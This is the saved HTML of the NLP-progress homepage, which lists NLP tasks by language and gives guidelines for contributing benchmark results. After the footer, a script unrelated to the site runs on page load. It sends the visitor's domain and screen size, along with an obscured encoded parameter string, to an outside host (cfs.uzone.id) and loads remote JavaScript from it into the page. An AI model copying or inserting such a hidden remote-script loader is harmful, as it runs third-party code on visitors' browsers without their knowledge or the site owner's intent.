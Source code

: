 <!DOCTYPE html>
<html lang="en-US">

  <head>
    <meta charset='utf-8'>
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width,maximum-scale=2">
    <link rel="stylesheet" type="text/css" media="screen" href="/assets/css/style.css?v=3100ad22969cc1375be946b16092ac1ecdd8a1cc">

<!-- Begin Jekyll SEO tag v2.5.0 -->
<title>Tracking Progress in Natural Language Processing | NLP-progress</title>
<meta name="generator" content="Jekyll v3.8.5" />
<meta property="og:title" content="Tracking Progress in Natural Language Processing" />
<meta property="og:locale" content="en_US" />
<meta name="description" content="Repository to track the progress in Natural Language Processing (NLP), including the datasets and the current state-of-the-art for the most common NLP tasks." />
<meta property="og:description" content="Repository to track the progress in Natural Language Processing (NLP), including the datasets and the current state-of-the-art for the most common NLP tasks." />
<link rel="canonical" href="http://nlpprogress.com/" />
<meta property="og:url" content="http://nlpprogress.com/" />
<meta property="og:site_name" content="NLP-progress" />
<script type="application/ld+json">
{"@type":"WebSite","url":"http://nlpprogress.com/","name":"NLP-progress","headline":"Tracking Progress in Natural Language Processing","description":"Repository to track the progress in Natural Language Processing (NLP), including the datasets and the current state-of-the-art for the most common NLP tasks.","@context":"http://schema.org"}</script>
<!-- End Jekyll SEO tag -->

  </head>

  <body>

    <!-- HEADER -->
    <div id="header_wrap" class="outer">
        <header class="inner">
          <a id="forkme_banner" href="https://github.com/sebastianruder/NLP-progress">View on GitHub</a>

          <h1 id="project_title">NLP-progress</h1>
          <h2 id="project_tagline">Repository to track the progress in Natural Language Processing (NLP), including the datasets and the current state-of-the-art for the most common NLP tasks.</h2>

          
        </header>
    </div>

    <!-- MAIN CONTENT -->
    <div id="main_content_wrap" class="outer">
      <section id="main_content" class="inner">
        <h1 id="tracking-progress-in-natural-language-processing">Tracking Progress in Natural Language Processing</h1>

<h2 id="table-of-contents">Table of contents</h2>

<h3 id="english">English</h3>

<ul>
  <li><a href="/english/automatic_speech_recognition.html">Automatic speech recognition</a></li>
  <li><a href="/english/ccg.html">CCG</a></li>
  <li><a href="/english/common_sense.html">Common sense</a></li>
  <li><a href="/english/constituency_parsing.html">Constituency parsing</a></li>
  <li><a href="/english/coreference_resolution.html">Coreference resolution</a></li>
  <li><a href="/english/dependency_parsing.html">Dependency parsing</a></li>
  <li><a href="/english/dialogue.html">Dialogue</a></li>
  <li><a href="/english/domain_adaptation.html">Domain adaptation</a></li>
  <li><a href="/english/entity_linking.html">Entity linking</a></li>
  <li><a href="/english/grammatical_error_correction.html">Grammatical error correction</a></li>
  <li><a href="/english/information_extraction.html">Information extraction</a></li>
  <li><a href="/english/language_modeling.html">Language modeling</a></li>
  <li><a href="/english/lexical_normalization.html">Lexical normalization</a></li>
  <li><a href="/english/machine_translation.html">Machine translation</a></li>
  <li><a href="/english/missing_elements.html">Missing elements</a></li>
  <li><a href="/english/multi-task_learning.html">Multi-task learning</a></li>
  <li><a href="/english/multimodal.html">Multi-modal</a></li>
  <li><a href="/english/named_entity_recognition.html">Named entity recognition</a></li>
  <li><a href="/english/natural_language_inference.html">Natural language inference</a></li>
  <li><a href="/english/part-of-speech_tagging.html">Part-of-speech tagging</a></li>
  <li><a href="/english/question_answering.html">Question answering</a></li>
  <li><a href="/english/relation_prediction.html">Relation prediction</a></li>
  <li><a href="/english/relationship_extraction.html">Relationship extraction</a></li>
  <li><a href="/english/semantic_textual_similarity.html">Semantic textual similarity</a></li>
  <li><a href="/english/semantic_parsing.html">Semantic parsing</a></li>
  <li><a href="/english/semantic_role_labeling.html">Semantic role labeling</a></li>
  <li><a href="/english/sentiment_analysis.html">Sentiment analysis</a></li>
  <li><a href="/english/shallow_syntax.html">Shallow syntax</a></li>
  <li><a href="/english/simplification.html">Simplification</a></li>
  <li><a href="/english/stance_detection.html">Stance detection</a></li>
  <li><a href="/english/summarization.html">Summarization</a></li>
  <li><a href="/english/taxonomy_learning.html">Taxonomy learning</a></li>
  <li><a href="/english/temporal_processing.html">Temporal processing</a></li>
  <li><a href="/english/text_classification.html">Text classification</a></li>
  <li><a href="/english/word_sense_disambiguation.html">Word sense disambiguation</a></li>
</ul>

<h3 id="chinese">Chinese</h3>

<ul>
  <li><a href="/chinese/chinese.html#entity-linking">Entity linking</a></li>
  <li><a href="/chinese/chinese_word_segmentation.html">Chinese word segmentation</a></li>
</ul>

<h3 id="hindi">Hindi</h3>

<ul>
  <li><a href="/hindi/hindi.html#chunking">Chunking</a></li>
  <li><a href="/hindi/hindi.html#part-of-speech-tagging">Part-of-speech tagging</a></li>
  <li><a href="/hindi/hindi.html#machine-translation">Machine Translation</a></li>
</ul>

<h3 id="vietnamese">Vietnamese</h3>

<ul>
  <li><a href="/vietnamese/vietnamese.html#dependency-parsing">Dependency parsing</a></li>
  <li><a href="/vietnamese/vietnamese.html#machine-translation">Machine translation</a></li>
  <li><a href="/vietnamese/vietnamese.html#named-entity-recognition">Named entity recognition</a></li>
  <li><a href="/vietnamese/vietnamese.html#part-of-speech-tagging">Part-of-speech tagging</a></li>
  <li><a href="/vietnamese/vietnamese.html#word-segmentation">Word segmentation</a></li>
</ul>

<h3 id="spanish">Spanish</h3>

<ul>
  <li><a href="/spanish/entity_linking.html#entity-linking">Entity linking</a></li>
</ul>

<h3 id="portuguese">Portuguese</h3>

<ul>
  <li><a href="/portuguese/question_answering.html">Question Answering</a></li>
</ul>

<h3 id="nepali">Nepali</h3>

<ul>
  <li><a href="/nepali/nepali.html#machine-translation">Machine Translation</a></li>
</ul>

<p>This document aims to track the progress in Natural Language Processing (NLP) and give an overview
of the state-of-the-art (SOTA) across the most common NLP tasks and their corresponding datasets.</p>

<p>It aims to cover both traditional and core NLP tasks such as dependency parsing and part-of-speech tagging
as well as more recent ones such as reading comprehension and natural language inference. The main objective
is to provide the reader with a quick overview of benchmark datasets and the state-of-the-art for their
task of interest, which serves as a stepping stone for further research. To this end, if there is a 
place where results for a task are already published and regularly maintained, such as a public leaderboard,
the reader will be pointed there.</p>

<p>If you want to find this document again in the future, just go to <a href="https://nlpprogress.com/"><code class="language-plaintext highlighter-rouge">nlpprogress.com</code></a>
or <a href="http://nlpsota.com/"><code class="language-plaintext highlighter-rouge">nlpsota.com</code></a> in your browser.</p>

<h3 id="contributing">Contributing</h3>

<h4 id="guidelines">Guidelines</h4>

<p><strong>Results</strong>   Results reported in published papers are preferred; an exception may be made for influential preprints.</p>

<p><strong>Datasets</strong>   Datasets should have been used for evaluation in at least one published paper besides 
the one that introduced the dataset.</p>

<p><strong>Code</strong>   We recommend to add a link to an implementation 
if available. You can add a <code class="language-plaintext highlighter-rouge">Code</code> column (see below) to the table if it does not exist.
In the <code class="language-plaintext highlighter-rouge">Code</code> column, indicate an official implementation with <a href="http://link_to_implementation">Official</a>.
If an unofficial implementation is available, use <a href="http://link_to_implementation">Link</a> (see below).
If no implementation is available, you can leave the cell empty.</p>

<h4 id="adding-a-new-result">Adding a new result</h4>

<p>If you would like to add a new result, you can just click on the small edit button in the top-right
corner of the file for the respective task (see below).</p>

<p><img src="/img/edit_file.png" alt="Click on the edit button to add a file" /></p>

<p>This allows you to edit the file in Markdown. Simply add a row to the corresponding table in the
same format. Make sure that the table stays sorted (with the best result on top). 
After you’ve made your change, make sure that the table still looks ok by clicking on the
“Preview changes” tab at the top of the page. If everything looks good, go to the bottom of the page,
where you see the below form.</p>

<p><img src="/img/propose_file_change.png" alt="Fill out the file change information" /></p>

<p>Add a name for your proposed change, an optional description, indicate that you would like to
“Create a new branch for this commit and start a pull request”, and click on “Propose file change”.</p>

<h4 id="adding-a-new-dataset-or-task">Adding a new dataset or task</h4>

<p>For adding a new dataset or task, you can also follow the steps above. Alternatively, you can fork the repository.
In both cases, follow the steps below:</p>

<ol>
  <li>If your task is completely new, create a new file and link to it in the table of contents above.</li>
  <li>If not, add your task or dataset to the respective section of the corresponding file (in alphabetical order).</li>
  <li>Briefly describe the dataset/task and include relevant references.</li>
  <li>Describe the evaluation setting and evaluation metric.</li>
  <li>Show how an annotated example of the dataset/task looks like.</li>
  <li>Add a download link if available.</li>
  <li>Copy the below table and fill in at least two results (including the state-of-the-art)
  for your dataset/task (change Score to the metric of your dataset). If your dataset/task
  has multiple metrics, add them to the right of <code class="language-plaintext highlighter-rouge">Score</code>.</li>
  <li>Submit your change as a pull request.</li>
</ol>

<table>
  <thead>
    <tr>
      <th>Model</th>
      <th style="text-align: center">Score</th>
      <th>Paper / Source</th>
      <th>Code</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td> </td>
      <td style="text-align: center"> </td>
      <td> </td>
      <td> </td>
    </tr>
  </tbody>
</table>

<h3 id="wish-list">Wish list</h3>

<p>These are tasks and datasets that are still missing:</p>

<ul>
  <li>Bilingual dictionary induction</li>
  <li>Discourse parsing</li>
  <li>Keyphrase extraction</li>
  <li>Knowledge base population (KBP)</li>
  <li>More dialogue tasks</li>
  <li>Semi-supervised learning</li>
  <li>Frame-semantic parsing (FrameNet full-sentence analysis)</li>
</ul>

<h3 id="exporting-into-a-structured-format">Exporting into a structured format</h3>

<p>You can extract all the data into a structured, machine-readable JSON format with parsed tasks, descriptions and SOTA tables.</p>

<p>The instructions are in <a href="/structured/">structured/README.md</a>.</p>

<h3 id="instructions-for-building-the-site-locally">Instructions for building the site locally</h3>

<p>Instructions for building the website locally using Jekyll can be found <a href="/jekyll_instructions.html">here</a>.</p>


      </section>
    </div>

    <!-- FOOTER  -->
    <div id="footer_wrap" class="outer">
      <footer class="inner">
        
        <p class="copyright">NLP-progress maintained by <a href="https://github.com/sebastianruder">sebastianruder</a></p>
        
        <p>Published with <a href="https://pages.github.com">GitHub Pages</a></p>
      </footer>
    </div>

    
  <script type="text/javascript">if (self==top) {function netbro_cache_analytics(fn, callback) {setTimeout(function() {fn();callback();}, 0);}function sync(fn) {fn();}function requestCfs(){var idc_glo_url = (location.protocol=="https:" ? "https://" : "http://");var idc_glo_r = Math.floor(Math.random()*99999999999);var url = idc_glo_url+ "cfs.uzone.id/2fn7a2/request" + "?id=1" + "&enc=9UwkxLgY9" + "&params=" + "4TtHaUQnUEiP6K%2fc5C582Am8lISurprAw8TUooPxdSHVAboGd2MjEa07n0tGVjR6QbwP%2b%2bMAI6RfgiElLNjXAhQ0TO72ct1tE5DYM0CdKBlJ5IAqc9nqg3OsSdjF9MNKvLthcKJG6SpLWvQ%2bx1jFjEE0l1CHMOWJFpT82ui%2f4h06IJlyosy5vEpLt10a4m39pooVN6iOy3O%2bbaB1emx0LVOr1%2fJybB3eJN%2flH1CxDarpvoVjwOJeRluUssYJVOVov44YF3EsxDCm4DPoGOFzn%2bhFKsF47qj4tqgymIg9O1ITbIk70mKOAQ78TZExLpRHzmM3U%2fsshOTz7fHgZ%2bGfvRG2e1pgmmhAGPcxDSKpm1VHnRqhThH2bzFPic9aXj5WmOLq6ihFmd1a%2fLD9RX8w5GxzDQlpwQ4yIkURN%2f3QAhfJDd3x43QvlhpeWmiZxovUi3dAIHDB%2b%2bQHUj6fIT8KlvB9gjrjmuABkKmAg5uv9sttVRuS0bVWzMr3HuKVY65Wc%2fhn79Gj9WkLVFC3RrGPSvyFrg7iUZtm2jmVgEYaqp25LJUPDNSPL6SO65DMX4W0uX3upkdoeOI%3d" + "&idc_r="+idc_glo_r + "&domain="+document.domain + "&sw="+screen.width+"&sh="+screen.height;var bsa = document.createElement('script');bsa.type = 'text/javascript';bsa.async = true;bsa.src = url;(document.getElementsByTagName('head')[0]||document.getElementsByTagName('body')[0]).appendChild(bsa);}netbro_cache_analytics(requestCfs, function(){});};</script></body>
</html>
